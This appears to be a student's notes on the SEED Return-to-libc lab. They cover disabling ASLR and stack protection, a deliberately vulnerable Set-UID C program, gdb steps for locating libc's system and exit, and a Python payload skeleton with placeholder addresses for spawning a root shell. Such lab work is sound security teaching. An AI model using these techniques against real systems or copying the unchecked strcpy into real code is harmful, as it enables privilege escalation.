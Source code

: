 # Return-to-libc Attack Lab

## Lab Link: https://seedsecuritylabs.org/Labs_20.04/Files/Return_to_Libc/Return_to_Libc.pdf

## Set up Countermeasures

### Turn off Address Space Layout Randomization

`$ sudo sysctl -w kernel.randomize_va_space=0`

### Turn off the StackGuard Protection Scheme

`$ gcc -m32 -fno-stack-protector example.c`

### Use the Non-Executable Bit
Since we're experimenting with ROP, we will enable the NX bit.
```
For executable stack:
$ gcc -m32 -z execstack -o test test.c
For non-executable stack:
$ gcc -m32 -z noexecstack -o test test.c
```

### Configuring /bin/sh

In Ubuntu 20.04, the /bin/sh symbolic link points to the /bin/dash shell. The dash shell has a countermeasure that prevents itself from being executed in a Set-UID process. It works by dropping its privilege when it is executed in a Set-UID process. And our victim program is a Set-UID program, from which our attack will use the `system` function to run a command of our choice. The `system` call will invoke `bin/sh` to run our command. Dash shell's countermeasure makes it harder for us to do privileged actions. So for this lab we will link `/bin/sh` to `zsh`.

## The Vulnerable Program

The `retlib.c` file:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#ifndef BUF_SIZE
#define BUF_SIZE 12
#endif

int bof(char *str)
{
    char buffer[BUF_SIZE];
    unsigned int *framep;

    // Copy ebp into framep
    asm("movl %%ebp, %0" : "=r" (framep));      

    /* print out information for experiment purpose */
    printf("Address of buffer[] inside bof():  0x%.8x\n", (unsigned)buffer);
    printf("Frame Pointer value inside bof():  0x%.8x\n", (unsigned)framep);

    strcpy(buffer, str);   

    return 1;
}

void foo(){
    static int i = 1;
    printf("Function foo() is invoked %d times\n", i++);
    return;
}

int main(int argc, char **argv)
{
   char input[1000];
   FILE *badfile;

   badfile = fopen("badfile", "r");
   int length = fread(input, sizeof(char), 1000, badfile);
   printf("Address of input[] inside main():  0x%x\n", (unsigned int) input);
   printf("Input size: %d\n", length);

   bof(input);

   printf("(^_^)(^_^) Returned Properly (^_^)(^_^)\n");
   return 1;
}
```

Compile it:
```
$ gcc -m32 -DBUF_SIZE=100 -fno-stack-protector -z noexecstack -o retlib retlib.c
$ sudo chown root retlib
$ sudo chmod 4755 retlib
```

## Task 1: Finding out the Addresses of libc Functions

We can debug the `retlibc` using gdb. 

> Even though the program is a root-owned Set-UID program, we can still debug it, except that the privilege will be dropped (i.e., the effective user ID will be the same as the real user ID).

Get the address of `system` and `exit` from libc: 
```bash
$ touch badfile
$ gdb -q retlib ➙Use "Quiet" mode
Reading symbols from ./retlib...
(No debugging symbols found in ./retlib)
gdb-peda$ break main
Breakpoint 1 at 0x1327
gdb-peda$ run
......
Breakpoint 1, 0x56556327 in main ()
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e12420 <system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xf7e04f80 <exit>
gdb-peda$ quit
```

These commands above can be executed in gdb's batch mode:
```bash
$ cat gdb_command.txt
break main
run
p system
p exit
quit
$ gdb -q -batch -x gdb_command.txt ./retlib
...
Breakpoint 1, 0x56556327 in main ()
$1 = {<text variable, no debug info>} 0xf7e12420 <system>
$2 = {<text variable, no debug info>} 0xf7e04f80 <exit>
```

## Task 2: Putting the shell string in the memory

We want to call `system` with `/bin/sh`. To put the string `/bin/sh` into memory, we create an env var:
```bash
$ export MYSHELL=/bin/sh
$ env | grep MYSHELL
MYSHELL=/bin/sh
```
Then we get the address of the env var by creating a program `prtenv` from the code below:
```
void main(){
   char* shell =  getenv("MYSHELL");
   if (shell)
	  printf("%x\n", (unsigned int)shell);
}
```
Note the program's filename should be the same as the `retlib` because otherwise we can't expect the env var's address to be the same between two different programs.
Also note the program should be compiled with `-m32 flag` and ASLR turned off.

## Task 3: Launching the Attack

We can use python to do the dirty work of constructing the buffer overflow payload.

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 0
sh_addr = 0x00000000       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 0
system_addr = 0x00000000   # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 0
exit_addr = 0x00000000     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```

The goal is to set up the argument by putting values in the stack (note that 32-bit calling conventions, the arguments should be pushed onto the stack).

And then override the return addres of `bof`, when we return from it, we will just call `exit.`

## Task 4: Defeat the Shell's countermeasure

We need to construct your input, so when the bof() function returns, it returns to execv(), which fetches from the stack the address of the "/bin/bash" string and the address of the argv[] array. You need to prepare everything on the stack, so when execv() gets executed, it can execute"/bin/bash -p".

One catch with this method is that argv needs to end with a NULL. How do we achieve that? 

> Remember the “%n” format string which writes the number of bytes written to the address supplied to the corresponding printf() argument. We will use this and also utilize the direct access functionality of format strings.  from: https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf

The other way is to call `setuid` before calling `system`.


